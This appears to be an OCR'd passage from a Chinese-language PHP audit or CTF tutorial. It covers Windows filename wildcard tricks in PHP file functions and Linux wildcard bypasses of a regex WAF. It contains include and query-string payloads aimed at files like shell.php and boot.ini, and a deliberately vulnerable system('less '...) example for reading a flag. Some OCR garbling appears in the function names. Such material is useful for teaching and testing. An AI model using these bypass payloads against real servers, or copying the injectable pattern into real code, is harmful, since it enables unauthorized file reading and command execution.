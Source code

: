 | 11. | OK     | file\_put\_contents()  | Write file             |
| 12. | OK     | mkdir()                | New directory creation |
| 13. | OK     | tempnam()              | New file creation      |
| 14. | OK     | touch()                | New file creation      |
| 15. | OK     | move\_uploaded\_file() | Move operation         |
| 16. | OK     | opendiit)              | Directory operation    |
| 17. | OK     | readdir()              | Directory operation    |
| 18. | OK     | rewinddir()            | Directory operation    |
| 19. | OK     | closedir()             | Directory operation    |
| 20. | FAIL   | rename()               | Move operation         |
| 21. | FAIL   | unlink()               | Delete file            |
| 22. | FAIL   | rmdir())               | Directory operation    |

```php
## ?file=1<
## ?file=1>
## ?file=1"txt
文件名为1.txt

## ?file=1234.tx>
## ?file=1234.<
## ?file=1<<
## ?file=1<<">
## ?file=123>">
## ?file=>>>4">
## ?file=<<4">
文件名为1234.txt

include('shell<');
include('shell<<');
include('shell.p>p');
include('shell"php');
fopen('.htacess');  //==>fopen("htacess');
file_get_contents('C:boot.ini'); //==>  file_get_contents ('C:/boot.ini');
file_get_contents('C:/tmp/con.jpg'); //此举将会无休无止地从CON设备读取0字节，直到遇到eof
file_put_contents('C:/tmp/con.jpg',chr(0×07));  //此举将会不断地使服务器发出类似哔哔的声音
复制代码
```

### Linux 通配符利用

原理：linux下，\*代表任意字符(0到多个)，?代表一个字符，所以如果是有执行linux系统命令，那就可以用这些通配符来绕过过滤，并执行我们想要的命令

```php
<?php
## 本地flag路径为 /data/sublime/php/audit/3/flag.txt
## ?filename='/????/???????/???/?????/?/*'
function waf($file){
    return preg_replace('/[a-z0-9.]/i', '', "$file");
}
$filename = $_GET['file'];
$file = waf($filename);
echo $file;
system('less '.$file);
复制代码
```
